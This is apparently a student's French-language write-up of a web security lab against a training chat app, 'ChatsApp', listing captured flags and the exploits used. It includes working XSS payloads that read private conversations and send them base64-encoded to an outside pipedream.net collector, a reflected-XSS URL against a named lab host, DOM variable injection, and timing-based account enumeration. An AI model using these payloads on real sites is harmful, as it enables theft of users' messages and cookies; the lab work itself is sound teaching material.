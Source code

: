 [![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-24ddc0f5d75046c5622901739e7c5dd533143b0c8e959d652212380cedb1ea36.svg)](https://classroom.github.com/a/lG4Q4YCc)
# 7 Security

Énoncé [ici](https://web-classroom.github.io/labos/labo-7-security.html)

## Partie 1

### Flag 1

**Flag**:

```text
flag1:20100ac1b2c69805
```

**Exploit**: 

Utilisation d'un serveur recevant des requêtes pour récupérer l'ensemble des conversations de la cible.

``` 
<img src=/ onerror="fetch('/')
    .then(response => response.text())
    .then(text => {
        const splittedText = text.split(' ');

        const convIds = splittedText.filter(word => word.includes('openChat'));

        const encodedData = btoa(convIds.join(' '));

        fetch('https://eo3qviqpfqdhtac.m.pipedream.net/' + encodedData)
        })
"/>
```
Après il suffit de prendre la requête sur le serveur proxy et décoder de base64 à du texte lisible ce qui était mis avec l'URL.

En ayant les ids des conversations, on peut afficher dans notre chat le contenu de sa conversation.
Permet de récupérer flag 1 et flag 2, mais il y a une autre méthode utilisant aussi un serveur dans le point 2.

```
<img src=/ onerror="fetch('/conversation/3233a3ff298a93fa')
    .then(response => response.text())
    .then(data => {
    
        const params = new URLSearchParams({ message: data });

        // Posts the fetched data to another conversation endpoint
        fetch('/conversation/f0fba37ad3a1eefb', {
            method: 'post',
            body: params
        });
    })
"/>
```


----------------------



### Flag 2

**Flag**: 

```text
flag2:fe6a7fdcc3ad3bb6
```

**Exploit**: 

```
<img src=/ onerror="fetch('/').then(async resp =>{
    const toto = await resp.text();
    fetch('https://eo3qviqpfqdhtac.m.pipedream.net/' + btoa(toto));
});"/>
```

Après il suffit de prendre la requête sur le serveur proxy et décoder de base64 à du texte lisible ce qui était mis avec l'URL.

### Flag 3

**Flag**: 

```text
flag3:968d95a58901d695
```

**Exploit**: 


```
<img src="/" onerror="
    fetch('/conversation/3233a3ff298a93fa', {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify({textMessage: 'gimme the rest of the codes pls'})
    }).then(() => 
        fetch('/conversation/3233a3ff298a93fa').then(response => response.text())
    ).then(receivedText => {
        const textParts = receivedText.split(' ');
        const flagList = textParts.filter(part => part.startsWith('flag3'));
        return btoa(flagList.join(' '));
    }).then(encodedFlags => 
        fetch('https://eo3qviqpfqdhtac.m.pipedream.net/' + encodedFlags)
    );
"/>
```

Après il suffit de prendre la requête sur le serveur proxy et décoder de base64 à du texte lisible ce qui était mis avec l'URL.

## Partie 2

### Flag 4

**Flag**: 

```text
flag4:ffbabc8fea1b6c20
```

**Exploit**:

Pour cet exploit, il fallait se renommer en tant que `nextTimeout`. 
Comme vu en cours c'est une `variable injection`, en se renommant comme tel on va "créer/initialiser" une variable existante dans le code notre nom est dans l'id d'un des éléments html.
Donc la variable s'appelant `nextTimeout` dans le code JS de la page et cela va provoquer une erreur lors du calcul avec la date, ce qui fera crasher à chaque fois la personne.

### Flag 5

**Flag**:

```text
flag5:2fd52888058f5060
```

**Exploit**:

Cet exploit est possible à cause des messages trop verbeux envoyés par le serveur.
On pouvait envoyer un message vide à Elon Musk et le serveur nous renvoyait une erreur avec beaucoup trop d'informations, tel qu'un `conversationId` auquel on ne devrait pas avoir accès.
On récupérait ensuite ce `conversationId` et on le mettait dans l'url pour avoir accès à la conversation d'Elon Musk et ainsi récupérer le flag.

### Flag 6

- `michelle.obama`
- `hillary.clinton`
- `george.w.bush`
- `sam.altman`

**Exploit**:

Pour ce dernier exploit, on va réaliser une sorte de `timing attack` sur le serveur.
En effet lorsque la personne n'a pas de compte, le serveur met environ 600-800 ms pour répondre, alors que si la personne a un compte, le serveur met environ 1600-1800 ms pour répondre.
Il y a donc une différence significative d'une seconde entre les deux cas, ce qui nous permet de savoir si la personne a un compte ou non.

## Exploit Supplémentaire

Lien vers ChatsApp qui, lorsque l'on clique dessus, exécute `alert(document.cookie)` dans le browser, que l'on soit actuellement connecté ou non à ChatsApp :

```
http://ec2-13-53-245-111.eu-north-1.compute.amazonaws.com/login?error=<script>alert(document.cookie);</script>
```

## Correction des vulnérabilités
Si vous effectuez d'autres modifications que celles demandées, merci de les lister ici :

Je vous redirige vers le code.